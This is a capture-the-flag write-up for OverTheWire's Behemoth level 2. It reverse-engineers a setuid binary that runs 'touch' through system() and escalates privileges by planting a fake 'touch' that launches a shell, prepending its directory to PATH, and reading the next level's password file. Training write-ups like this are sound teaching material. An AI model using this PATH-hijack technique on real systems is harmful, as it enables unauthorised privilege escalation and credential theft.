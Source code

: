#Behemoth2

behemoth.labs.overthewire.org

**Username:** behemoth2
**Password:** see [behemoth1](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Behemoth/Behemoth1)
**Description:**  

This wargame deals with a lot of regular vulnerabilities found commonly 'out in the wild'. While the game makes no attempts at emulating a real environment it will teach you how to exploit several of the most common coding mistakes including buffer overflows, race conditions and privilege escalation. 

##Write-up

Let's go ahead and see what we're working with:

```
# file behemoth2 
behemoth2: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=490eca1266dce1c6fa5afd37392837976dba68ef, not stripped
```
```
# ~/checksec.sh --file behemoth2 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   behemoth2
```

Ok, we have a couple protections enabled, but they didn't really play a role in [behemoth0](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Behemoth/Behemoth0), so let's go ahead and dive in and see what this binary does.

```
# ./behemoth2 
Test
^C
# ls
20977  behemoth2
```

Pretty weird.  Didn't really do anything, but it did end up creating a file locally after I gave it some input.  Let's see what the disassembly looks like.

```asm
             main:
0804856d         push       ebp                                                 ; XREF=_start+23
0804856e         mov        ebp, esp
08048570         and        esp, 0xfffffff0
08048573         sub        esp, 0xa0
08048579         mov        eax, dword [gs:0x14]
0804857f         mov        dword [ss:esp+0x9c], eax
08048586         xor        eax, eax
08048588         call       j_getpid
0804858d         mov        dword [ss:esp+0x1c], eax
08048591         lea        eax, dword [ss:esp+0x24]
08048595         add        eax, 0x6
08048598         mov        dword [ss:esp+0x20], eax
0804859c         mov        eax, dword [ss:esp+0x1c]
080485a0         mov        dword [ss:esp+0x8], eax
080485a4         mov        dword [ss:esp+0x4], 0x804870c                       ; "touch %d", argument "format" for method j_sprintf
080485ac         lea        eax, dword [ss:esp+0x24]
080485b0         mov        dword [ss:esp], eax                                 ; argument "str" for method j_sprintf
080485b3         call       j_sprintf
080485b8         lea        eax, dword [ss:esp+0x38]
080485bc         mov        dword [ss:esp+0x4], eax                             ; argument #2 for method __lstat
080485c0         mov        eax, dword [ss:esp+0x20]
080485c4         mov        dword [ss:esp], eax                                 ; argument #1 for method __lstat
080485c7         call       __lstat
080485cc         and        eax, 0xf000
080485d1         cmp        eax, 0x8000
080485d6         je         0x80485f0

080485d8         mov        eax, dword [ss:esp+0x20]
080485dc         mov        dword [ss:esp], eax                                 ; argument "path" for method j_unlink
080485df         call       j_unlink
080485e4         lea        eax, dword [ss:esp+0x24]
080485e8         mov        dword [ss:esp], eax                                 ; argument "command" for method j_system
080485eb         call       j_system

080485f0         mov        dword [ss:esp], 0x7d0                               ; argument "seconds" for method j_sleep, XREF=main+105
080485f7         call       j_sleep
080485fc         lea        eax, dword [ss:esp+0x24]
08048600         mov        dword [ds:eax], 0x20746163
08048606         mov        byte [ds:eax+0x4], 0x0
0804860a         mov        byte [ss:esp+0x28], 0x20
0804860f         lea        eax, dword [ss:esp+0x24]
08048613         mov        dword [ss:esp], eax                                 ; argument "command" for method j_system
08048616         call       j_system
0804861b         mov        eax, 0x0
08048620         mov        edx, dword [ss:esp+0x9c]
08048627         xor        edx, dword [gs:0x14]
0804862e         je         0x8048635

08048630         call       j___stack_chk_fail

08048635         leave                                                          ; XREF=main+193
08048636         ret        
                        ; endp
```

Ok, we have a few things to track down here.  We can see a call to ```getpid```, ```sprintf```, ```lstat```, ```unlink```, ```system```, and ```sleep```.  I'm not 100% sure what ```lstat``` and ```unlink``` do, so let's take a look at them first.  Starting with ```lstat```, we can see that it is used to determine information about a file based on its filename.  Next we have ```unlink``` which appears to remove a link to a file if it exists.

We can follow the assembly here a little, but let's see what [Hopper](http://www.hopperapp.com) will give us for the psuedocode.

```C
int main(int arg0) {
    esp = (esp & 0xfffffff0) - 0xa0;
    getpid();
    eax = *(esp + 0x1c);
    sprintf(esp + 0x24, "touch %d", eax);
    if ((__lstat(*(esp + 0x20), esp + 0x38) & 0xf000) != 0x8000) {
            eax = *(esp + 0x20);
            unlink(eax);
            system(esp + 0x24);
    }
    sleep(0x7d0);
    *(esp + 0x24) = 0x20746163;
    *(int8_t *)(esp + 0x28) = 0x0;
    system(esp + 0x24);
    eax = 0x0;
    edx = *(esp + 0x9c);
    edx = edx ^ *0x14;
    COND = edx == 0x0;
    if (!COND) {
            eax = __stack_chk_fail();
    }
    return eax;
}
```

We can see that both calls to system, which is mostly likely where we want to be, are using ```esp + 0x24``` as their parameter.  Looking at the line ```sprintf(esp + 0x24, "touch %d", eax);``` it looks as though ```esp + 0x24``` should be the string ```touch <pid>``` where ```<pid>``` is the actual process id.  This also makes sense that we were seeing weird files being generated upon execution. Now, we need to figure out how to take over that command in order to try and get a shell.  So, in general, how does the system know where the ```touch``` command is?  It's not in the local directory, and even if it was you would need ```./touch``` to call it.  So this all ties back to the ```PATH``` environment variable.  If you lookup the definition of what the ```PATH``` variable is you'll find this or something similiar:  
>"PATH is an environmental variable in Linux and other Unix-like operating systems that tells the shell which directories to search for executable files (i.e., ready-to-run programs) in response to commands issued by a user."
So let's look at our ```PATH``` and see where the system is looking for the command ```touch```.

```
# echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
# whereis touch
touch: /usr/bin/touch /bin/touch /usr/share/man/man1/touch.1.gz
```

If we look at where ```touch``` actually exists on the system and then where the ```PATH``` references one of those locations we will see that ```touch``` is actually being called from ```/usr/bin```.  We should be able to create our own ```touch``` command and add its location to the beginging of the ```PATH```, or at least before ```/usr/bin``` in the path, and our command should be used.  Let's try.

```
# echo /bin/dash > touch
# cat touch 
/bin/dash
# chmod +x touch 
# ./touch 
$ whoami
root
```

I changed the actual prompt so you could see the difference, but after creating a new script called ```touch``` that executes a new shell I ran it to make sure everything was working correctly. Now let's update our ```PATH``` and try to re-run ```behemoth2```.

```
# export PATH=~/CTF/OverTheWire/behemoth/:$PATH
# echo $PATH
/root/CTF/OverTheWire/behemoth/:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
# ./behemoth2
$ whoami
root
```

So we can see that by adding the directory of our newly created ```touch``` command to the begining of the ```PATH``` we have take over that command and now instead of an arbitraty file being created we are greeted with a shell.  Let's head to the server and see if we can duplicate it without too much trouble.

```
behemoth2@melinda:/behemoth$ mktemp -d  
/tmp/tmp.T2jaQATLdj
behemoth2@melinda:/behemoth$ echo /bin/dash > /tmp/tmp.T2jaQATLdj/touch
behemoth2@melinda:/behemoth$ chmod +x /tmp/tmp.T2jaQATLdj/touch
behemoth2@melinda:/behemoth$ export PATH=/tmp/tmp.T2jaQATLdj:$PATH
behemoth2@melinda:/behemoth$ ./behemoth2
touch: cannot touch '6686': Permission denied
```

Hmmm, it looks like the new ```PATH``` wasn't used.  Let's verify everything.

```
behemoth2@melinda:/behemoth$ echo $PATH
/tmp/tmp.T2jaQATLdj:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
behemoth2@melinda:/behemoth$ ls /tmp/tmp.T2jaQATLdj
touch
behemoth2@melinda:/behemoth$ /tmp/tmp.T2jaQATLdj/touch
$
```

Well that worked...

Wouldn't be the first time we've had permission issues.  Let's make sure ```behemoth3``` has access to our ```touch``` command.

```
behemoth2@melinda:/behemoth$ chmod 777 /tmp/tmp.T2jaQATLdj/
behemoth2@melinda:/behemoth$ ./behemoth2
$ whoami
behemoth3
$ cat /etc/behemoth_pass/behemoth3
**********
```
